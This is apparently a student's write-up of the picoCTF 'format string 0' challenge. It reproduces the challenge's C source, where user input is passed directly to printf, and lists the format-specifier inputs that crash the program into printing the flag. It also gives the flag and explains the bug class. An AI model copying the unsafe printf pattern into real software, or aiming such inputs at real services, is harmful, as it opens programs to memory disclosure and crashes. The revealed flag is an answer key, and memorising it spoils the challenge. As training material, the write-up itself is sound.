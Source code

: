# format string 0
flag : picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_dc0f36c4}

## My Approach
Relatively simple.
- I launched instance and copied the link "nc mimas.picoctf.net 60075" onto my terminal and pressed enter
- Then I was asked to input one of the three given choices, honestly went ahead and tried a variety of combinations
- got the flag
  
This was the code I got :
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 32
#define FLAGSIZE 64

char flag[FLAGSIZE];

void sigsegv_handler(int sig) {
    printf("\n%s\n", flag);
    fflush(stdout);
    exit(1);
}

int on_menu(char *burger, char *menu[], int count) {
    for (int i = 0; i < count; i++) {
        if (strcmp(burger, menu[i]) == 0)
            return 1;
    }
    return 0;
}

void serve_patrick();

void serve_bob();


int main(int argc, char **argv){
    FILE *f = fopen("flag.txt", "r");
    if (f == NULL) {
        printf("%s %s", "Please create 'flag.txt' in this directory with your",
                        "own debugging flag.\n");
        exit(0);
    }

    fgets(flag, FLAGSIZE, f);
    signal(SIGSEGV, sigsegv_handler);

    gid_t gid = getegid();
    setresgid(gid, gid, gid);

    serve_patrick();
  
    return 0;
}

void serve_patrick() {
    printf("%s %s\n%s\n%s %s\n%s",
            "Welcome to our newly-opened burger place Pico 'n Patty!",
            "Can you help the picky customers find their favorite burger?",
            "Here comes the first customer Patrick who wants a giant bite.",
            "Please choose from the following burgers:",
            "Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe",
            "Enter your recommendation: ");
    fflush(stdout);

    char choice1[BUFSIZE];
    scanf("%s", choice1);
    char *menu1[3] = {"Breakf@st_Burger", "Gr%114d_Cheese", "Bac0n_D3luxe"};
    if (!on_menu(choice1, menu1, 3)) {
        printf("%s", "There is no such burger yet!\n");
        fflush(stdout);
    } else {
        int count = printf(choice1);
        if (count > 2 * BUFSIZE) {
            serve_bob();
        } else {
            printf("%s\n%s\n",
                    "Patrick is still hungry!",
                    "Try to serve him something of larger size!");
            fflush(stdout);
        }
    }
}

void serve_bob() {
    printf("\n%s %s\n%s %s\n%s %s\n%s",
            "Good job! Patrick is happy!",
            "Now can you serve the second customer?",
            "Sponge Bob wants something outrageous that would break the shop",
            "(better be served quick before the shop owner kicks you out!)",
            "Please choose from the following burgers:",
            "Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak",
            "Enter your recommendation: ");
    fflush(stdout);

    char choice2[BUFSIZE];
    scanf("%s", choice2);
    char *menu2[3] = {"Pe%to_Portobello", "$outhwest_Burger", "Cla%sic_Che%s%steak"};
    if (!on_menu(choice2, menu2, 3)) {
        printf("%s", "There is no such burger yet!\n"); 
        fflush(stdout);
    } else {
        printf(choice2);
        fflush(stdout);
    }
}
```
too long, let's zoom down on one part
```

void sigsegv_handler(int sig) {
    printf("\n%s\n", flag);
    fflush(stdout);
    exit(1);
}
.
.
.
fgets(flag, FLAGSIZE, f);
    signal(SIGSEGV, sigsegv_handler);
```
from this section of the code I kind of realise that I need some segmentation fault to occur (again) for my flag to be printed.   
Took the hint given which said that this challenge is about format string vulnerabilities.     
So I asked chatgpt to point out where in the code are we focussing on format specifiers and that causing an error.

In this code, the section involving format specifiers is:
```
int count = printf(choice1);
```
and    
```
printf(choice2);
```
These lines use the printf function to output choice1 and choice2 directly, without specifying a format string (like "%s"). This can 
cause a format string vulnerability if the input contains format specifiers (such as %s, %d, etc.). In this case, any % in the user's
input could lead to unintended behavior. This exact unintended behaviour is the segmentation fault I need to get my flag.


## Terminal Output
```
avantikasanyal@LAPTOP-CFRE3HMA:~$ nc mimas.picoctf.net 60075
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Cla%sic_Che%s%steak
ClaCla%sic_Che%s%steakic_Che(null)
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_dc0f36c4}
```

## What did I learn?
1. What are format specifiers?
   
           Format specifiers are placeholders in C used within functions like printf and scanf to control the type and format of
           data being output or input. They start with a percent sign (%) followed by a character that specifies the type
           of data. Format specifiers allow you to format integers, floating-point numbers, strings, characters, and more in specific ways.
3. What is a format string vulnerability?
   
           Format string vulnerabilities typically arise when user input is passed directly into a function without specifying a format.
           A format string vulnerability occurs when a program uses weird user input as the format string in functions like printf,
           scanf.
           When these functions take user input as the format string directly, they may interpret any % symbols in the input as format 
           specifiers


  ## Refernces
  1. ChatGPT
  2. https://owasp.org/www-community/attacks/Format_string_attack

## Errors Made
Honestly, the options that I had to enter I just did hit and trial there. I entered a variety of combinations before I got the right one   
I should have realised I just need the option with % sign in it to cause a format string vulnerability.
